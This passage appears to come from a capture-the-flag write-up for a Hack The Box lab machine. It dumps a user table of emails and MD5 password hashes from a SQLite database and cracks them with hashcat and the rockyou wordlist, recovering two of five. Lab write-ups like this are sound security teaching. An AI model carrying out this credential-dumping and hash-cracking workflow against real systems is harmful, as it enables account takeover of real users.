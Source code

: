 we found some users:hashes :
```sh
─$ sqlite3 users.db
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables
model  user 
sqlite> SELECT * FROM user;
1|gael|gael@artificial.htb|c99175974b6e192936d97224638a34f8
2|mark|mark@artificial.htb|0f3d8c76530022670f1c6029eed09ccb
3|robert|robert@artificial.htb|b606c5f5136170f15444251665638b36
4|royer|royer@artificial.htb|bc25b1f80f544c0ab451c02a3dca9fc6
5|mary|mary@artificial.htb|bf041041e57f1aff3be7ea1abd6129d0
6|geh|geh@geh.com|591f849746d65341494dfa35887d20ad
7|admin123|admin@gmail.com|21232f297a57a5a743894a0e4a801fc3
8|siema|siema@gmail.com|7b9c85e963a65461b3a1cd0b5e5450df
9|zen|zen@htb.com|7e9aedd97b5ec4590edb8281ff12b168
10|atoontoto|atoontoto@gmail.com|8fb8dc4463718ae6c4b936f731ec0ea8
sqlite> 
```
we try to crack the first five hashes `@artificiel.htb`
```sh
$ cat hashes.txt            
c99175974b6e192936d97224638a34f8
0f3d8c76530022670f1c6029eed09ccb
b606c5f5136170f15444251665638b36
bc25b1f80f544c0ab451c02a3dca9fc6
bf041041e57f1aff3be7ea1abd6129d0
```
```sh
$ hashcat  -m 0 -a 0 hashes.txt /opt/rockyou.txt                      
hashcat (v6.2.6) starting
Dictionary cache hit:
* Filename..: /opt/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

Approaching final keyspace - workload adjusted.           

                                                          
Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 0 (MD5)
Hash.Target......: hashes.txt
Time.Started.....: Tue Jun 24 00:57:29 2025 (5 secs)
Time.Estimated...: Tue Jun 24 00:57:34 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/opt/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  3443.1 kH/s (0.08ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 2/5 (40.00%) Digests (total), 0/5 (0.00%) Digests (new)
Progress.........: 14344385/14344385 (100.00%)
Rejected.........: 0/14344385 (0.00%)
Restore.Point....: 14344385/14344385 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: $HEX[206b72697374656e616e6e65] -> $HEX[042a0337c2a156616d6f732103]
Hardware.Mon.#1..: Util: 42%

[s]tatus [p]ause [b]ypass [c]heckpoint [f]inish [q]uit => Started: Tue Jun 24 00:57:28 2025
Stopped: Tue Jun 24 00:57:35 2025
                                                                   
┌──(zenon㉿kali)-[~/HTB/machines/Artificial]
└─$ hashcat  -m 0 -a 0 hashes.txt /opt/rockyou.txt --show
```